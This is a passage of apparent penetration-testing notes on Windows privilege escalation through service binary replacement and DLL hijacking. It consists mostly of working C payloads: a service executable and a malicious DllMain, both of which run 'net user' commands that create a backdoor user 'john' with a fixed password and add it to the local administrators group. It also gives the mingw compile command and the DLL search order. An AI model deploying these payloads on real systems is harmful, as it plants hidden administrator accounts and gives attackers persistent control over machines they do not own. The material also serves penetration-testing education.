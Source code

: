If we have to manually load a custom exploit into the service we can directly write the C code and compile it for our needs:

```c
#include <stdlib.h>

int main ()
{
  int payload;
  
  payload = system ("net user john Password123! /add");
  payload = system ("net localgroup administrators john /add");
  
  return 0;
}
```

And then compile it with:

```shell
x86_64-w64-mingw32-gcc payload.c -o payload.exe
```

## Service DLL Hijacking
---

This is the order Windows search for DLLs:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

The following C program can be used to exploit a missing DLL:

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int payload;
        payload = system ("net user john Password123! /add");
        payload = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
